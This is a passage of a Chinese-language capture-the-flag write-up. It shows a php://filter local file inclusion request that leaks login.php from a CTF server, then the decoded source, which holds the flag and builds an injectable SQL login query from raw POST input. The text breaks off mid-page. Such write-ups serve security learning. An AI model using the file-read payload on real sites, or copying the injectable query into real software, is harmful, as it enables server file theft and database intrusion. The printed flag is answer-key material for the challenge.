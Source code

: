 再輸入一次網址，把login.php挖出來

```http
網址輸入：
http://ctf.adl.tw:12004/?page=php://filter/read=convert.base64-encode/resource=login.php
```
 解base64 後得到 Flag (在註解)
```php
<?php
// ADL{ve5eeeeeeeeEEEE555ry_si!!iimple_LFI}
$host = 'db';
$dbuser = 'MYSQL_USER';
$dbpassword = 'MYSQL_PASSWORD';
$dbname = 'ctf_users';
$link = mysqli_connect($host, $dbuser, $dbpassword, $dbname);

$loginStatus = NULL;
$username = $_POST['ctf_username'];
$password = $_POST['ctf_password'];

if (isset($username) && isset($password)) {
    error_log('POST: [' . $username . '] [' . $password . ']');
    if ($link) {
        $sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
        $query = mysqli_query($link, $sql);
        $fetchs = mysqli_fetch_all($query, MYSQLI_ASSOC);
        if (count($fetchs) > 0) {
            foreach ($fetchs as $fetch) {
                if ($fetch["username"] === 'gura' && $fetch["password"] === $password) {
                    $loginStatus = True;
                    break;
                }
                $loginStatus = False;
            }
        } else {
            $loginStatus = False;
        }
    } else {
        $loginStatus = NULL;
    }
} else {
    $loginStatus = NULL;
}
?>
<!doctype html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="author" content="Vongola">
    <title>Gura Dum</title>
    <link href="css/bootstrap.min.css" rel="stylesheet">
    <link href="css/signin.css" rel="stylesheet">
    <link href="css/rainbow.css" rel="stylesheet">
</head>

<body class="text-center" style="display:block;padding: 0;">
    <?php
    if ($loginStatus === True) {
    ?>
        <div class="text-center d-flex justify-content-center flex-column" style="height: 100vh">
            <h1 class="rainbow" style="font-size: 5rem;">Login Success!</h2>
                <p style="font-size: 3em;">
                    <?php echo $_ENV["FLAG"], '<br>'; ?>
```